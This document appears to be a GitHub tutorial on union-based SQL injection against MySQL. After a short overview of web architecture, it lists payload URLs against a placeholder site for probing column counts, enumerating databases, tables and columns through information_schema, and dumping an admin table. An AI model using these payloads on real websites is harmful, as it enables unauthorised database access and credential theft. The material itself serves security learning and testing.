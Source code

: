 # SQL Injection Basic To Advanced

![SQL Injection](https://avinetworks.com/wp-content/uploads/2020/04/sql-injection-attack-diagram.png "SQL Injection")
##


## 1. Introduciton
**Web Architecture**
![Web Architecture](https://axisbits.com/storage/app/uploads/public/7da/cc4/ec1/7dacc4ec1c9bc16b7aa58185cb8efa5a.png "Web Architecture")
<br>
**Client Side (Frontend**
```
HTML
CSS 
JavaScript
```
**Server Side (Backend)**
```
PHP
ASP
Python
Ruby on Rails
Node JS 
SQL
```
**Database Management Systems**
```
MySQL
PostgreSQL
Oracle SQL
```
> Web Protocols
![Web Architecture](https://static.javatpoint.com/tutorial/computer-network/images/http-vs-https.png "Protocols")

##

> URL(Uniform Resource Locator) Structure
![Web Architecture](https://static.semrush.com/blog/uploads/media/fa/fe/fafe931ac85fc1c5b628299e399a2870/yqyhmdwqsDzxONy4U6FyLwK_LN_hl36xIGyfon2xWiopIuhrhR4w08c-NbWe2EnJXUh0RWDOCtMrlVNhqlBVmWRjKI3freLX4X_1Ugk7_9FwqgquwBsNqfaOnJZQ6xJJnGRKowrKhSBr_xVQZGI6gCg.png "URL")



##

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```

**Gather Database And DBMS Informations**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT database()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT version()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT user()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT @@datadir),4,5-- -
```

**Finding Tables**
```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),4,5-- -
```

**Finding Columns Of Table Or Tables**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='admin'),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name,':',column_name) FROM information_schema.columns WHERE table_schema=database()),4,5-- -
```

**Dump Data**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column1,':',column2) FROM admin),4,5-- -
```

